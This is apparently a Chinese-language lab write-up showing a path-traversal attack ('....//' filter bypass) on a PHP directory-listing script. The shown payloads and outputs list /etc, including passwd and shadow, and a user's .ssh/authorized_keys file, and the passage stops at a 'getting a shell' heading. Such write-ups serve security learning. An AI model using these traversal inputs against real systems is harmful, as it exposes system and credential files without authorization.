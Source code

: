## 获取敏感信息
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-21/7.PNG)

```
path=./
path=
[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]

推测 /var/www/html/目录下有这些文件
于是访问http://10.10.10.87/background.jpg，成功验证。
--------------------------
path=./.list
[".","..","list1","list2"]
了解到/var/www/html/.list目录下后这些文件
---------------------
于是想要访问/var/www/，查看目录下有哪些文件
path=..../
[".","..","html","localhost"]
于是获得该目录有这两个文件。
-----------
path=....//....//
[".","..","cache","empty","lib","local","lock","log","opt","run","spool","tmp","www"]
------------
path=....//....//....//
[".","..",".dockerenv","bin","dev","etc","home","lib","media","mnt","proc","root","run","sbin","srv","sys","tmp","usr","var"]
-------------
path=....//....//....//etc
[".","..","TZ","alpine-release","apk","ca-certificates","ca-certificates.conf","conf.d","crontabs","default","environment","fstab","group","group-","hostname","hosts","init.d","inittab","issue","localtime","login.defs","logrotate.d","modprobe.d","modules","modules-load.d","motd","mtab","network","nginx","opt","os-release","pam.d","passwd","passwd-","periodic","php7","profile","profile.d","protocols","resolv.conf","securetty","security","services","shadow","shadow-","shells","ssh","ssl","supervisor","supervisord.conf","sysctl.conf","sysctl.d","terminfo","udhcpd.conf","vim"]

```
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-21/8.PNG)

---

本来想直接列user.txt，但可能有权限问题，提示false。
```
path=....//....//....//....//home/nobody/
[".","..",".ash_history",".ssh",".viminfo","user.txt"]
```
file=....//....//....//....//home/nobody/.ssh/authorized_keys
ssh密钥文件

---
## 获得shell
